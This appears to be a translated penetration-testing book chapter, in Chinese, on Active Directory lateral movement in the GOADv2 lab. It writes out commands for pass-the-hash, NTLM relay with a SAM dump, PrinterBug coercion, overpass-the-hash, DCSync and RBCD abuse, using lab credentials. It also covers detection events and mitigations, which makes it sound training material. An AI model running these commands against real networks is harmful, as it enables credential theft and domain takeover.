



# 第五章：域内和跨森林的横向移动

在对手在环境中建立立足点和/或收集有效凭证之后，下一步通常是横向移动。横向移动是一组技术，允许攻击者深入目标环境，寻找高价值资产和敏感数据，包括新凭证。

我们将从一个场景开始，假设攻击者获得了明文密码（例如，成功的密码喷洒攻击），现在试图通过滥用管理协议来与常规环境流量混淆。接下来，我们将讨论如何转发哈希值以及使此操作成功的前提条件。为了执行横向移动，攻击者不仅需要 **新技术局域网管理器**（**NTLM**）响应或明文密码；它可以是任何其他形式的凭证材料：NT 哈希、密钥或票证。由于 Kerberos 被微软推荐作为域中的主要安全认证协议，我们将详细介绍三种 Kerberos 委派类型。最后，我们将重点讨论仅在森林之间的横向移动，以及名为 SID 过滤的安全机制如何阻止它。

在本章中，我们将涵盖以下主要主题：

+   滥用管理协议进行横向移动

+   转发哈希

+   通过任何方式

+   Kerberos 委派

+   域和森林之间的移动

# 技术要求

本章内容，你将需要访问以下资源：

+   VMware Workstation 或 Oracle VirtualBox，至少 16 GB 内存，8 个 CPU 核心，以及 55 GB 总存储空间（如果你拍摄快照，需更多空间）

+   强烈推荐使用基于 Linux 的操作系统

+   安装了对应虚拟化平台插件和 Ansible 的 Vagrant

+   GOADv2 项目，所有机器均已启动并运行

# 在域中使用管理协议

在本节中，我们将讨论 IT 员工通常在域内用于日常支持活动的各种管理协议。我们将讨论 PowerShell 功能，例如 PSRemoting 和 `Just Enough Administration`（**JEA**）。**远程桌面协议**（**RDP**）也是管理中最常用的协议之一。我们还将简要介绍其他可以用于横向移动的协议，如 WMI、SMB、DCOM 和来自 Impacket 的 PSExec。

## PSRemoting 和 JEA

`PSRemoting` 允许你连接到多台计算机并在其上执行命令。另一种选择是，你可以在目标机器上获得一对一的交互式 shell。为了简化理解，你可以将其视为 SSH，但它是在 Windows 上运行 PowerShell 命令的工具。简而言之，客户端尝试连接到运行在目标服务器上的一个小型 Web 服务器，称为 **WinRM 监听器**。HTTP 或 HTTPS 协议可以用于提供认证的传输。我们可以通过运行以下命令来列出可用的监听器：

```
winrm e winrm/config/listener
```

以下截图显示了 SRV02 上此命令的输出：


图 5.1 – SRV02 上的 WinRM 监听器

让我们使用以下命令登录到远程计算机：

```
Enter-PSSession -ComputerName castelblack
```

认证过程中的流量捕获将如以下截图所示：


图 5.2 – PSRemoting 登录流量捕获

如果我们使用的是 Linux 机器，可以尝试`evil-winrm`工具[1]来获取交互式 Shell。此外，PSRemoting 支持不同的身份验证协议。我们将仅关注 Kerberos 身份验证。为了能够登录到机器，用户应属于**管理员**或**远程管理用户**组。此外，需要提到的是，通过填写 WinRM 配置中的**受信任主机**选项并应用 HTTPS 作为传输协议来配置受信任主机列表，将有助于提高环境的安全性。

在某些环境中，您可能会遇到**即时管理**（**JIT**）和/或 JEA。JIT 是一种安全概念，其中管理员权限可以基于时间动态分配和撤销。JEA 是一种限制某些用户在机器上远程执行操作的概念。这里有一个在实验室环境中为培训目的设置 JEA 的良好示例[2]。我们不会详细讲解这个内容，但提到这些安全机制还是很重要的。像往常一样，任何安全边界都可以在配置不安全的情况下被绕过。

注意

可以在这里找到一个包含逃逸技巧的优秀演示：[`www.triplesec.info/slides/3c567aac7cf04f8646bf126423393434.pdf`](https://www.triplesec.info/slides/3c567aac7cf04f8646bf126423393434.pdf)。一个名为 RACE[3]的强大工具包可以帮助通过 JEA 实现持久化，该工具包由*Nikhil Mittal*发布。

现在，让我们讨论第二种最常见的管理协议，即 RDP。

## RDP

RDP 允许你连接到远程计算机，并提供与直接坐在计算机前的相同体验，包括图形用户界面（GUI）。如果你有被攻陷用户的明文凭证，可以使用 RDP 访问目标机器。BloodHound 工具在枚举期间会发现这些信息。为了识别此类用户，BloodHound 会收集计算机上**远程桌面用户**组的成员和在**本地安全策略**（**LSA**）中拥有`SeRemoteInteractiveLoginPrivilege`权限的主体。如果有用户符合这两个条件，则会出现`CanRDP`边缘[4]。连接时，我们可以使用 Windows 自带客户端或来自 Kali Linux 的`xfreerdp`。

如果我们只有 NT 哈希值，我们可以利用名为 **受限管理员** 模式的功能。在此模式下，凭据不会被发送到远程计算机，也不会存储在内存中，因为它将登录方式转换为 **网络登录（类型 3）**，而不是 **远程交互式登录（类型 10）**。这看起来是一个不错的安全措施，但这也是我们可以将哈希传递到 RDP 的原因。主要的警告是，受损的用户必须属于 **管理员** 组，并且此模式需要启用。我们来快速演示这个模式的实际操作。要以 `eddard.stark` 用户身份登录到 winterfell，我们可以先通过 Mimikatz 进行 pass-the-hash，或者从 Linux 机器上使用 `xfreerdp`：

```
xfreerdp /u:eddard.stark /d:north.sevenkingdoms.local /pth:D977B98C6C9282C5C478BE1D97B237B8 /v:192.168.56.11
```

运行此命令的结果如下图所示：


图 5.3 – 未启用受限管理员模式

幸运的是，GitHub 上有一个名为 `RestrictedAdmin` 的工具[5]。但是，它并不符合操作安全（OpSec）的标准，因为它会更改可能被蓝队监控的注册表项；不同类型的登录也会出现在事件日志中。运行以下命令将启用远程机器上的此模式：


图 5.4 – 启用受限管理员模式

现在，我们可以使用 pass-the-hash 方式登录 RDP：


图 5.5 – 成功通过 RDP 登录到目标机器

关于 RDP 还有两件值得分享的事：首先，感谢 `SharpRDP` 工具[6]，我们可以在我们偏好的指挥控制软件中，通过 RDP 实现非图形化的经过认证的远程命令执行。

其次，我们可以通过多种方式从端点转储 RDP 凭据，例如从进程内存中转储，使用 `SharpRDPThief`[7]，或使用 Mimikatz 从 Windows 凭据管理器中获取。

一个可能的缓解建议是使用 **Windows Defender 远程凭据保护** 来保护远程桌面凭据。它仅允许使用 Kerberos 进行认证，并防止在断开连接后发生 pass-the-hash 和凭据重用。**多因素认证**（**MFA**）是另一个值得考虑的好选项。

接下来，我们将讨论如何使用 Impacket 进行横向移动。虽然这些协议也可以通过 Windows 工具滥用，但引入 Impacket 对于知识的扩展和后续章节的内容是很重要的。

## 使用 Impacket 的其他协议

`Impacket`[8] 是一组为处理各种网络协议而创建的 Python 类。在 `example` 文件夹中，有许多有用的 Python 脚本，允许你进行多种横向移动方法，处理 Kerberos，访问 Windows 密码，执行转发攻击等。这个工具包是 Rubeus 等工具的一个很好的替代方案，因为后者在 Linux 上不可用。我们可以在 Impacket 中选择以下横向移动选项：

+   `PSExec` 是一个非常引人注意的工具，能够迅速吸引防御者的注意，因为它会上传可执行文件并创建服务。

+   `SmbExec` 在每次请求时创建服务，但不会上传任何文件。

+   `AtExec` 会以 `SYSTEM` 权限在 `C:\Windows\System32\Tasks\` 创建一个带有随机名称的计划任务，并将输出保存在 `C:\Windows\Temp\` 目录中的文件中。

+   `DCOMExec` 需要创建文件。

+   `WMIExec` 需要创建和删除文件。

这些技术中的大部分可以通过增强的监控手段被捕捉到，比如使用 Sysmon 以及关联 Windows 事件日志。

另外，一个好的防御策略是部署 **攻击面缩减**(**ASR**) 规则。ASR 防止端点上的典型恶意行为，例如从不同应用程序创建进程，防止执行基于来源和各种条件的文件，加载有漏洞的签名驱动程序等等。

在接下来的部分，我们将讨论 NTLM 响应转发攻击以及不同类型的哈希。

# 哈希转发

在上一章中，我们讨论了通过强制身份验证或使用中间人攻击来捕获 NTLM 响应的不同方法。现在，我们要解答为什么要捕获响应。在实际操作之前，需要先解释一些理论概念和注意事项。

首先，NTLM 协议有两个版本（v1 和 v2）。接下来，NTLM 身份验证消息可以跨协议转发，因为它们与协议无关。理解捕获 NTLM 身份验证时使用了什么协议以及我们计划通过什么协议进行转发是非常重要的。以下的思维导图是 *nwodtuhs* 创建的，是我们讨论的一个很好参考。


图 5.6 – NTLM 转发

让我们更多地关注一个重要的话题，那就是签名，特别是针对 SMB 和 LDAP。签名配置及其存在由客户端和服务器端的设置控制。对于 SMB，这将取决于协议版本以及服务器是否为域控制器。关键点是，SMB v2 的签名必须由服务器和/或客户端要求。LDAP 行为有所不同，如果双方都能做到，数据包将会被签名，但并非强制要求。

注意

LDAP 和 SMB 签名配置与协商的显著例子可以在这里找到：[`en.hackndo.com/ntlm-relay/`](https://en.hackndo.com/ntlm-relay/)。

但是会话签名是在 NTLM 身份验证期间协商的，也许我们可以尝试取消它？在这里，我们将进一步了解**消息完整性码**（**MIC**），它仅在 NTLM v2 中可用。`MIC`是一个签名，来自通过`HMAC_MD5`函数计算的几个参数。最重要的参数是会话密钥，它依赖于客户端的密钥，以及一个值，表示是否协商了签名。如果我们不知道客户端的密钥，则无法更改`MIC`。然而，来自一家名为*Preempt*的公司的研究人员发现了两个漏洞，分别被方便地命名为`Drop the MIC`（**CVE-2019-1040**）和`Drop the MIC 2`（**CVE-2019-1166**），允许简单地移除`MIC`。

另一个漏洞，`CVE-2019-1019`，是`CVE-2015-005`的继任者，允许通过在建立`NETLOGON`通道时缺少计算机名来获取任何认证尝试的会话密钥。详细的攻击演示可以在这里找到[9]。

最后我们要讨论的是**身份验证扩展保护**（**EPA**）。它是针对跨协议中继攻击引入的，目的是将身份验证层与协议绑定。如果要求绑定 TLS 通道（LDAPS 或 HTTPS），则服务器证书哈希（称为**通道绑定令牌**）将作为 NTLM 响应的一部分使用，这意味着没有知道客户端密钥的情况下无法伪造。对于非 TLS 协议，如 CIFS 或 HTTP，该字段称为**服务绑定信息**。这个想法与 TLS 绑定非常相似，但不是使用证书的哈希目标，而是会检查 NTLM 响应中的**服务主体名称**（**SPN**）。在两种情况下，如果不匹配，将导致“访问被拒绝”错误。

这是一大堆理论！让我们转到一些实践操作，看看它的好处。

注

如果某些事情没有按预期进行，下面的实验室创建者会帮你解决：[`mayfly277.github.io/posts/GOADv2-pwning-part4/`](https://mayfly277.github.io/posts/GOADv2-pwning-part4/)。

首先，我们列出不需要 SMB 签名的机器。我们可以使用`CrackMapExec`来完成：

```
crackmapexec smb 192.168.56.10-23 --gen-relay-list smb_relay.txt
```

以下是机器列表：


图 5.7 – 禁用 SMB 签名的机器

在上一章中，我们捕获了`eddard.stark`的 NTLM 响应，因为计划任务在 DNS 名称中有一个拼写错误。现在，让我们利用这个进行中继攻击。我们通过编辑`/etc/responder/Responder.conf`并运行`ntlmrelayx`来禁用 Responder 中的 SMB 和 HTTP 服务器，从而以`eddard.stark`用户的身份在 castelblack 上转储 SAM 数据库，因为该用户在 castelblack 上具有管理员权限：

```
impacket-ntlmrelayx -tf smb_relay.txt -smb2support
```

以下截图显示了转储**安全帐户管理器**（**SAM**）数据库的结果：


图 5.8 – 中继 NTLM v2 响应并转储 SAM 数据库

需要提到的是，自 `MS08-68` 以来，无法将哈希值中继到自身。`ntlmrelayx` 还有一个选项 (--socks)，可以使用 SMB 连接作为 `SOCKS` 代理，避免嘈杂的登录并且不需要在主机上获得管理员权限。然后，我们可以使用代理链来运行我们想要的工具。

下一步，我们将使用中继进行 LDAP 枚举。由于域控制器要求签名，因此我们无法中继通过 SMB 获取的哈希值，因此如果已安装 WebDAV 服务（如 *Jean_Maes_1994* 在这里所示：[`www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/`](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/)）或者尝试 `mitm6`，我们可以使用 WebDAV 服务。实验室创建者演示了如何使用 `mitm6` 工具包，因此我们将展示 WebDAV 场景，并在实验室中对 `castelblack` 进行必要的更改。

注

在我们开始之前，您可以在这里阅读更多信息：[`www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient`](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient)。

作为在 castelblack 上的第一个准备步骤，我们需要通过 PowerShell 以 **管理员** 身份安装一个名为 `WebDAV Redirector` 的功能：

```
Install-WindowsFeature WebDAV-Redirector –Restart
```

在以下截图中，我们可以看到该功能已成功安装，且服务已停止：


图 5.9 – WebClient 服务已成功安装

现在让我们通过将 `.searchConnector-ms` 文件放置在公共共享上，强制启动 WebClient 服务，正如 *MDSec* 研究人员所描述的那样，内容如下：

```
<?xml version="1.0" encoding="UTF-8"?> <searchConnectorDescription > <iconReference>imageres.dll,-1002</iconReference> <description>Microsoft Outlook</description> <isSearchOnlyItem>false</isSearchOnlyItem> <includeInStartMenuScope>true</includeInStartMenuScope> <iconReference>https://192.168.56.22/public/0001.ico</iconReference> <templateInfo> <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType> </templateInfo> <simpleLocation> <url>https://example.com/</url> </simpleLocation> </searchConnectorDescription>
```

然后我们可以验证服务是否成功启动。如果我们不知道网络中有任何运行 WebClient 服务的服务器，我们可以使用 `CrackMapExec` 模块 `WebDAV` 扫描 IP 范围：

```
crackmapexec smb 192.168.56.0/24 -u arya.stark -p Needle -d north -M webdav
```

我们的侦查活动结果显示在以下截图中：



图 5.10 – WebClient 服务侦查

下一步是使用强制方法触发通过 HTTP 向我们的 Kali 机器进行认证，然后将其中继到 LDAP。我们将需要一个禁用 HTTP 服务器的 Responder 和 `ntlmrelayx`：

```
python3 dementor.py -u arya.stark -d north.sevenkingdoms.local -p Needle 192.168.56.100 192.168.56.22
```

在本次练习中，我选择了 PrinterBug 作为强制方法，并通过名为 `dementor`[10] 的工具在 Linux 上实现。以下截图显示了转储域信息的结果：


图 5.11 – 域枚举 LDAP

作为最后一个示例，我想展示 `CVE-2019-1040` 的实际操作。*Mayfly* 在实验室中引入了一个易受攻击的服务器。为了找到易受攻击的主机，我们可以使用由 *_dirkjan*[11] 创建的扫描器。以下命令将检查目标是否存在漏洞：

```
python3 scan.py essos/khal.drogo:horse@192.168.56.23
```

如果我们尝试在已修补的系统中将 SMB 转发到 LDAP，将导致 `ntlmrelayx` 出现以下错误：


图 5.12 – SMB 到 LDAP 转发失败

但是，如果存在*Drop the MIC*漏洞，我们可以添加**–remove-mic**标志，从而成功转发，如下图所示：


图 5.13 – Drop the MIC 允许转发

注意

要获取更多有关如何防止某些类型转发的信息，我们可以参考 Nettitude 博客文章（[`labs.nettitude.com/blog/network-relaying-abuse-windows-domain/`](https://labs.nettitude.com/blog/network-relaying-abuse-windows-domain/)）作为良好的起点。

阻止转发攻击向量需要检查和测试大量服务，因此可以对 SMB、LDAP、LDAPS 和 HTTPS 强制实施签名。精细调整 IPv6，并禁用广播协议和未使用的服务作为域加固练习。尽量只在域内使用 Kerberos 进行认证，但如果无法实现，则只使用 NTLM v2。必须完全禁用 NTLM v1！

在下一节中，我们将讨论攻击者能够攻陷机器并提取凭证（如 NT 哈希、AES 密钥或票证）后，如何执行横向移动。

# 通行证—任意传递

本节内容是关于冒充（身份伪装）的。假设攻击者入侵了一台机器，并通过多种可用方式之一，从 LSASS 进程中获取了哈希凭证。通常，下一步是通过启动新的登录会话并尝试访问其他公司资源来执行横向移动。我们将讨论执行此类活动的最常见方法，以及与操作安全相关的注意事项。**通行证传递证书**将在与*Active Directory* *证书服务*相关的*第八章*中进行讲解。

## 通行证—任意传递

我们将从经典的通行证—任意传递开始。该认证方法本身相当简单，完全依赖于 NTLM 协议，完全不涉及 Kerberos。此技术可用于本地和域账户。要执行通行证—任意传递攻击，攻击者需要在目标机器上拥有管理员权限。

注意

`hackndo`在其博客文章中详细描述了发生的过程，可以参考：[`en.hackndo.com/pass-the-hash/`](https://en.hackndo.com/pass-the-hash/)

该技术可以借助 Mimikatz 在提升的权限上下文中执行。在我们的示例中，攻击者能够攻陷一个本地管理员`vagrant`用户，并为该用户提取具有域管理员权限的 NT 哈希。在我们的案例中，是`robert.baratheon`，属于`sevenkingdoms`域。我们可以通过运行以下命令来执行通行证—任意传递：

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:robert.baratheon /ntlm:9029CF007326107EB1C519C84EA60DBE /domain:sevenkingdoms.local /run:powershell.exe"'
```

执行情况如下截图所示：


图 5.14 – 使用 Mimikatz 的 Pass-the-Hash 攻击

结果是，我们将打开一个新的 PowerShell 窗口。不要误解，我们在新的 PowerShell 会话中显示为 `vagrant` 用户。实际上，我们已经冒充了 `robert.baratheon` 用户。以下截图证明了这一点，在 PSRemoting 会话中可以看到这一点。


图 5.15 – 用于访问域控制器的 Pass-the-Hash 攻击

此外，还有一个名为 **用户帐户控制**（**UAC**）的警告，它可以限制我们成功横向移动后，对新受损机器的远程管理操作。它将依赖于两个注册表值，`LocalAccountTokenFilterPolicy` 和 `FilterAdministratorToken`，它们位于 `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`。默认情况下，只有内置管理员（其 **相对标识符**（**RID**）为 **500**）和具有本地管理员权限的域帐户才能在未激活 UAC 的情况下执行远程管理任务。

现在，我们可以讨论如何检测此技术。检测 Pass-the-Hash 最好的方法是查看源主机上的 `4624` 和 `4672` 事件。事件 `4624` 的登录类型为 `9`，登录过程为 `seclogo`，如以下截图所示：


图 5.16 – 执行 Pass-the-Hash 攻击的主机上的事件 4624

事件 ID `4672` 标识当前登录帐户的特权登录，而不是新帐户，如下截图所示：


图 5.17 – 执行 Pass-the-Hash 攻击的主机上的事件 4672

域控制器将不会有对应的事件 ID `4768` 和 `4769`。此外，我们不应忘记，通过使用 Sysmon，我们可以可靠地检测对 LSASS 进程的访问，这通常是在使用 Mimikatz 执行 Pass-the-Hash 攻击时发生的。通过结合这两个事件，我们可以可靠地检测到 Pass-the-Hash 攻击。

注意

微软的 Defender for Identity 表示，它可以通过分析用户常用的计算机中是否使用了 NT 哈希值来检测 Pass-the-Hash 攻击 ([`learn.microsoft.com/en-us/defender-for-identity/lateral-movement-alerts`](https://learn.microsoft.com/en-us/defender-for-identity/lateral-movement-alerts))。

## Pass-the-key 和 Overpass-the-hash

Pass-the-key 和 overpass-the-hash 是针对 Kerberos 认证的攻击。其计划是通过提供用户密码派生出的用户秘密密钥（`DES`、`RC4`、`AES128` 或 **AES256**）来获取有效的 Kerberos TGT。如果启用 RC4，意味着用户的 NT 哈希是一个密钥，这就是 `overpass-the-hash`。如果禁用 RC4，可以传递其他 Kerberos 密钥，这称为 `pass-the-key`。现在，默认情况下，Windows 使用 `AES256` 密钥，其加密类型值为 `0x12`。请求降级的 RC4 加密类型将具有加密类型值 `0x17`。此值可以在域控制器的事件 `4768` 中找到。作为攻击者，使用 Rubeus，普通用户可以通过运行以下命令请求 Kerberos TGT：

```
Rubeus.exe asktgt /domain:sevenkingdoms.local /user:robert.baratheon /rc4:9029CF007326107EB1C519C84EA60DBE /ptt
```

结果，一个票证将被注入到内存中，并且将获得对 `c$` 域控制器的访问权限，如下图所示：


图 5.18 – 因为 overpass-the-hash 注入的票证

以下是请求 RC4 降级的事件 `4768`：


图 5.19 – 事件 4768 中的降级加密类型

如果使用 Mimikatz，LSASS 访问规则可以检测到这两种技术，并且会出现登录用户与其 Kerberos 票证之间的不匹配。在现代 Windows 环境中，降级的加密类型会变得非常明显，并且会被调查。Rubeus 具有 `/opsec` 标志，它会发送一个初始的 AS-REQ 请求，而无需预身份验证，从而模拟真实的请求。这个选项旨在使流量更加隐蔽，这也是为什么只允许使用 `AES256` 加密类型的原因。通过使用 Mimikatz 可以提取此密钥：

```
mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
```

让我们再创建一个票证，并将生成的事件与之前的事件进行比较：

```
Rubeus.exe asktgt /user:robert.baratheon /aes256:6b5468ea3a7f5cac5 e2f580ba6ab975ce452833e9215fa002ea8405f88e5294d /opsec /ptt
```

以下是 Windows 事件的截图：


图 5.20 – Rubeus 在事件 4768 中使用 /opsec 选项

我们可以看到，**票证选项**（感谢 `/opsec` 选项）和 **票证加密类型** 已经发生了变化。如果我们想完全模拟真实的 Kerberos 认证，还需要考虑 **提供的领域名称**，对于真实的请求，这将是 `SEVENKINGDOMS`（此时 `/domain` 选项会派上用场）：


图 5.21 – 真实 TGT 请求的提供领域名称

最具挑战性的问题是，Rubeus 会生成 Kerberos 流量，这意味着它可能会被各种防御工具检测到。这是需要考虑的事项。

## Pass-the-ticket

最后，我们可能会遇到获取票证注入或能够伪造票证的情况。我们将在*第七章*中讨论四种伪造票证的类型，并展示如何伪造、使用和检测这些票证。

此外，票证可以从内存中提取，或者以 Linux（**.ccache**）或 Windows（**.kirbi**）格式存储在文件系统中。在 Windows 中，注入后的票证（Rubeus 中的 `/ptt` 选项）可以原生使用，正如我们在前面的示例中看到的那样。现在我们来使用相同的票证，但在 Kali 机器上。首先，我们需要使用 Impacket 中的 `ticketConverter` 将其从 `kirbi` 格式转换为 `ccache` 格式，然后导出票证。相关命令显示在以下截图中：


图 5.22 – 来自 Rubeus 的票证转换

然后，我们可以使用以下命令通过传票进行远程访问（只需在 Kali 机器上添加 `/etc/hosts` 记录即可）：

```
impacket-wmiexec -k -no-pass sevenkingdoms.local/robert.baratheon@kingslanding.sevenkingdoms.local
```

代码执行显示在以下截图中：


图 5.23 – 用于命令执行的传票攻击

注意

此攻击的检测指南可以在这里找到：[`www.netwrix.com/pass_the_ticket.xhtml`](https://www.netwrix.com/pass_the_ticket.xhtml)。通常，这一策略与 pass-the-key 攻击相同。已发布一个概念验证代码，用于检查登录用户与颁发的 Kerberos 票证之间的不匹配[12]。

在接下来的部分中，我们将讨论三种类型的 Kerberos 委派，以及如何将它们滥用进行横向移动。这种攻击类型也可以被视为**权限提升攻击**。

# Kerberos 委派

首先，我们需要讨论什么是委派以及为什么它存在。Active Directory 中的服务有时需要代表域用户被其他服务访问。可以想象一个 Web 服务器代表用户在后台进行数据库认证。`Active Directory`（**AD**）中有三种委派类型——**不受限委派**、**受限委派**和**基于资源的委派**。关于委派的信息可以通过使用 BloodHound、PowerView 或 AD 模块找到。我们将在接下来的章节中介绍各种委派类型。

注意

对于我们的实验，*Mayfly* 一如既往地准备了一个很棒的操作指南：[`mayfly277.github.io/posts/GOADv2-pwning-part10/`](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)。

## 不受限委派

我们将从最古老的委派类型开始。启用不受限委派的计算机或用户可以将任何身份验证用户或计算机伪装为任何主机上的任何服务。如果我们攻陷了启用了不受限委派的用户或机器，那么我们可以等待或强制对其进行身份验证，从内存中的 ST 缓存中提取目标用户/计算机的 TGT，然后将其重复使用以跨域或甚至森林访问。默认情况下，域控制器启用不受限委派。

注意

我建议查看[`www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained`](https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained)，以了解如何从攻击者的 Linux 机器上滥用不受限委派。

我们将启用 Castelrock 上的不受限委派，如下图所示：


图 5.24 – 启用不受限委派的 Castelrock

要查找启用了不受限委派的计算机，我们可以使用 PowerView：

```
Get-DomainComputer -Unconstrained | select dnshostname, useraccountcontrol
```

输出显示了域控制器（**kingslanding**）和`castelrock`服务器，其中`useraccountcontrol`属性中带有`TRUSTED_FOR_DELEGATION`标志：


图 5.25 – 启用不受限委派的计算机

注意

此外，我们可以使用 LDAP 过滤器 (`userAccountControl:1.2.**`
840.113556.1.4.803:=524288**) 与 AD PowerShell 模块一起使用。

下一步，我们假设我们已经成功攻陷了`castelrock`服务器，因此可以滥用不受限委派。在提升的权限下，我们将启动 Rubeus 监控模式：

```
Rubeus.exe monitor /interval:3 /nowrap
```

从标准用户上下文，我们通过使用 PrinterBug 强制从域控制器进行身份验证：


图 5.26 – 强制域控制器进行身份验证

结果，我们捕获了域控制器的 TGT：


图 5.27 – 域控制器的 TGT

现在，我们将使用 Rubeus 在内存中注入此票证，并使用 Mimikatz 转储域管理员的 NT 哈希：

```
Rubeus.exe ptt /ticket:"base64_ticket_from_capture"
Mimikatz.exe "lsadump::dcsync /user:robert.baratheon"
```

上一个命令的结果可以在以下截图中看到：


图 5.28 – 域管理员用户的 NT 哈希

注意

一个关于如何使用`krbrelayx`滥用不受限委派的很好的示例可以在这篇博客文章中看到：[`pentestlab.blog/2022/03/21/unconstrained-delegation/`](https://pentestlab.blog/2022/03/21/unconstrained-delegation/)。

为了防止滥用，请检查是否仅在域控制器上启用了不受限制的委派。如果其他地方确实需要不受限制的委派，请确保所有特权帐户具有**敏感且无法委派**标志，或者是**受保护用户**组的成员，因为这些帐户的 TGT 将在服务票证中无法委派。

## 基于资源的受限委派

在 Windows 2012 中，引入了一种新的委派类型，称为**基于资源的受限委派**（**RBCD**）。其思想是，委派由目标服务管理员在目标上配置，而不是在源上配置。这写入了`msDS-AllowedToActOnBehalfOfOtherIdentity`属性。滥用 RBCD 的最常见方法是创建计算机帐户，编辑目标委派属性，并获取票证。

首先，我们将从枚举开始。我们需要找出**机器帐户配额**值（默认情况下，每个域用户可以创建 10 个帐户），并检查 RBCD 是否已经实现，以及域中是否有任何计算机上存在`GenericAll`或`GenericWrite** `访问控制列表**（**ACLs**）。

机器配额可以通过*FuzzySec*编写的`StandIn`工具[13]找到：

```
StandIn.exe --object ms-DS-MachineAccountQuota=*
```

我们可以看到该域使用的是默认值：


图 5.29 – 默认机器帐户配额值

你还可以使用 PowerView 枚举机器帐户配额：

```
Get-DomainObject -Identity "dc=sevenkingdoms,dc=local" -Domain sevenkingdoms.local
```

下一步是枚举域中的 ACL。我们可以使用 PowerView 的`Invoke-ACLScanner`或类似工具来完成。以下截图显示了有趣的输出：



图 5.30 – 用户在域控制器上具有 GenericAll 权限

现在，我们可以通过使用 PowerMad[14]、Impacket 中的`addcomputer`，或在我们这个案例中使用`StandIn`来创建计算机帐户：

```
StandIn.exe --computer MyDesktop --make
```

结果如以下截图所示：


图 5.31 – 创建了一个新的计算机帐户

如果我们妥协了`stannis.baratheon`用户，该用户可以更改`kingslanding`上的属性，那么通过向域中添加计算机帐户，我们可以使用 PowerShell AD 模块、PowerView 或 StandIn 将`msDS-AllowedToActOnBehalfOfOtherIdentity`属性设置为新创建的计算机帐户：

```
Get-DomainComputer "MyDesktop" -Properties objectsid
StandIn.exe --computer "kingslanding" --sid "S-1-5-21-4243769114-3325725031-2403382846-1122"
```

之前命令的结果如下图所示：


图 5.32 – 创建了一个新的计算机帐户

现在，我们可以获取一个票证：

```
Rubeus.exe hash /password:cQkFGq47oafTact /user:MyDesktop$ /domain:sevenkingdoms.local
Rubeus.exe s4u /user:MyDesktop$ /aes256:10AB7F32 B28F27AA7903D168C32C12A469EC7174783D6B5F52E8C10831FBE605 /msdsspn:http/kingslanding /impersonateuser:administrator /ptt
```

结果可以在以下截图中看到：


图 5.33 – 成功的 RBCD 攻击

此外，我们还可以通过使用*Nikhil Mittal*编写的 RACE 工具包，通过修改计算机对象的权限来实现持久化。

为了防止 RBCD 滥用，我们可以定期审查域中的 ACL，减少机器账户配额至`0`（**ms-DS-MachineAccountQuota**），并确保只有特权用户能够将机器添加到域中。此外，应用**敏感且不可委托**账户属性和**受保护用户**组来保护高特权账户。需要特别说明的是，仅将机器账户配额设置为`0`并不能防止此类攻击[15]。

## 受限委托

无约束委托与受限委托的主要区别在于，一个账户仅能针对特定服务模拟用户。它可以配置为（**使用任何认证协议**）或不使用（**仅使用 Kerberos**）协议转换，如以下委托属性所示：


图 5.34 – 受限委托配置

在这种情况下，委托使用了两个 Kerberos 扩展，分别是**为用户自服务**（**S4U2Self**）和**为用户代理服务**（**S4U2Proxy**）。

注意

关于 Kerberos 扩展及其工作原理的详细信息可以在此处找到：https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/。

简而言之，S4U2Proxy 协议允许一个服务代表用户在没有协议转换的受限委托情况下为另一个服务获取服务票证。在协议转换的情况下使用 S42Self 协议，允许服务在没有使用 Kerberos 认证（例如，NTLM v2）的情况下，代表用户为自身获取服务票证。然后，可以像往常一样使用 S4U2Proxy 协议。

受限委托可以为用户和计算机账户配置。使用 PowerView 进行枚举可以通过以下命令：

```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select dnshostname, msds-allowedtodelegateto
```

枚举结果如以下截图所示：


图 5.35 – 枚举启用了受限委托的用户和计算机

另一种方法是使用 Impacket 中的`findDelegation` Python 脚本：

```
findDelegation.py NORTH.SEVENKINGDOMS.LOCAL/samwell.tarly:Heartsbane -target-domain north.sevenkingdoms.local
